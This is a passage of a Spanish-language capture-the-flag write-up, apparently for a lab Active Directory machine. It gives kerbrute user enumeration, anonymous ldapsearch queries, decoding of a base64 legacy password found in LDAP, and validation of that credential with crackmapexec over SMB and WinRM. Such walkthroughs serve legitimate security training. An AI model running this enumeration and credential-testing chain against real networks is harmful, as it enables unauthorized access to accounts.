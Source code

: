 ### Kerbrute {-}

```bash
git clone https://github.com/ropnop/kerbrute
cd kerbrute
go build -ldflags "-s -w" .
upx kerbrute
./kerbrute userenum --dc 10.10.10.182 -d cascade.local /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```

Tampoco vemos nada aqui.
## Vulnerability Assessment {-}

### ldapsearch {-}

Como el ldap esta disponibles, usamos **ldapsearch** para enumerar el LDAP.

```bash
ldapsearch -x -h 10.10.10.182 -b "dc=cascade,dc=local"
```

Como la enumeracion es muy grande, buscamos emails

```bash
ldapsearch -x -h 10.10.10.182 -b "dc=cascade,dc=local" | grep "@cascade.local"
```

Miramos por cada uno de estos usuarios encontrados si hay informaciones relevantes por cada uno de ellos mirando las 20 lineas que hay debajo
del grep

```bash
ldapsearch -x -h 10.10.10.182 -b "dc=cascade,dc=local" | grep "@cascade.local -A 20
```

Debajo del usuario **r.thompson** vemos un cascadeLegacyPwd en base64

```bash
echo "clk0bjVldmE=" | base64 -d; echo
```

Tiene pinta de ser una contraseña.

Validamos el usuario con crackmapexec

```bash
crackmapexec smb 10.10.10.182 -u "r.thompson" -p "rY4n5eva"
```

Vemos que este usuario es valido pero no nos da un **Pwn3d!**. Miramos si podemos connectar por WinRM

```bash
crackmapexec winrm 10.10.10.182 -u "r.thompson" -p "rY4n5eva"
```

pero no.
